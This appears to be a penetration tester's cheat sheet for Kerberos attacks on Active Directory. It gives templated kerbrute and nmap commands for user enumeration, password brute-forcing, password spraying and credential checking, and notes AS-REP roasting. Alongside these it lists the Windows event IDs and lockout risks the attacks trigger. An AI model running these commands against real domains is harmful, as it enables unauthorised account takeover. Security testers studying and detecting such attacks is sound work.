 # Brute-force 
Be careful for locking out accounts (error code 4625 & 4771). For kerbrute use `--save` to abort when one account gets lockout.

The python kerbrute also saves the valid TGT for the valid user:password combination.

Can find user accounts with 'UF_DONT_REQUIRE_PREAUTH' set. Can be used for a AS-REP Roasting attack.

## User enumeration
4768 - Kerberos authentication ticket (TGT) was requested
Won't lockout user account. 

`kerbrute userenum --dc <IP> -d <DOMAIN> <USERLIST>`
Returns PRINCIPAL_UNKNOWN for invalid users
Returns PREAUTH_REQUIRED for valid users with pre-auth
Returns a AS-REP for valid users without pre-auth !!!!!!

`python3 kerbrute.py -dc-ip <IP> -domain <DOMAIN> -users <USERLIST>`
`sudo nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='<DOMAIN>',userdb=<USERLIST> <IP>`

## Password enumeration
4768 - A Kerberos authentication ticket (TGT) was requested
4771 - Kerberos pre-authentication failed

`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`
Returns RESPONSE_TOO_BIG for valid PW with pre-auth
Returns PREAUTH_FAILED for invalid PW with user with pre-auth
Returns a valid AS-REP for valid PW without pre-auth !!!!!!
Returns an invalid AS-REP for invalid PW without pre-auth !!!!!!

`python3 kerbrute.py -dc-ip <IP> -domain <DOMAIN> -user <USER> -passwords <PASSLIST>`

## Password Spraying
4768 - A Kerberos authentication ticket (TGT) was requested
4771 - Kerberos pre-authentication failed

`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`
`python3 kerbrute.py -dc-ip <IP> -domain <DOMAIN> -users <USERLIST> -password <PASS>`

## Check user:password combo
 4768 - A Kerberos authentication ticket (TGT) was requested
 4771 - Kerberos pre-authentication failed
 
`kerbrute bruteforce --dc <IP> -d <DOMAIN> -v <USERPASSLIST>`
`python3 kerbrute.py -dc-ip <IP> -domain <DOMAIN> -users <USERLIST> -passwords <PASSLIST>`